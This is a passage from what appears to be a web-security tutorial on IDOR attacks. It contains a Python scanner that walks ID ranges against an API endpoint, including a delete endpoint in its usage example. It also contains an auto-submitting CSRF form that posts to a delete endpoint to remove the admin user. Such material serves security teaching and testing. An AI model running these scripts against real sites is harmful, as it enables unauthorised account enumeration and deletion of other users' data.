 ```python
        
        avg_baseline = sum(baseline_times) / len(baseline_times) if baseline_times else 1.0
        
        # Test ID range
        for test_id in id_range:
            start_time = time.time()
            
            try:
                url = endpoint_template.format(id=test_id)
                response = self.session.get(url, timeout=10)
                end_time = time.time()
                
                response_time = end_time - start_time
                
                # Analyze response
                if response.status_code == 200:
                    print(f"[+] Potential IDOR: {url} (Status: 200)")
                
                elif response.status_code == 403:
                    print(f"[+] Forbidden resource exists: {url} (Status: 403)")
                
                elif response_time > (avg_baseline * 2):
                    print(f"[+] Slow response (potential processing): {url} (Time: {response_time:.2f}s)")
                
                # Check for different response lengths
                if hasattr(self, 'baseline_length'):
                    if abs(len(response.content) - self.baseline_length) > 100:
                        print(f"[+] Different response length: {url}")
                else:
                    self.baseline_length = len(response.content)
            
            except Exception as e:
                continue
            
            time.sleep(0.1)  # Rate limiting

# Usage
detector = BlindIDORDetector("https://target.com", {"Authorization": "Bearer token"})
detector.test_blind_idor("https://target.com/api/user/{id}/delete", range(1, 100))
```

### 3. 🔗 IDOR Chaining

Combining IDOR with other vulnerabilities for greater impact.

#### IDOR + CSRF Chain
```html
<!-- CSRF form that exploits IDOR -->
<form id="idor-csrf" action="https://vulnerable-app.com/api/user/1/delete" method="POST">
    <input type="hidden" name="confirm" value="true">
</form>

<script>
// Automatically submit form to delete admin user (ID: 1)
document.getElementById('idor-csrf').submit();
</script>
```
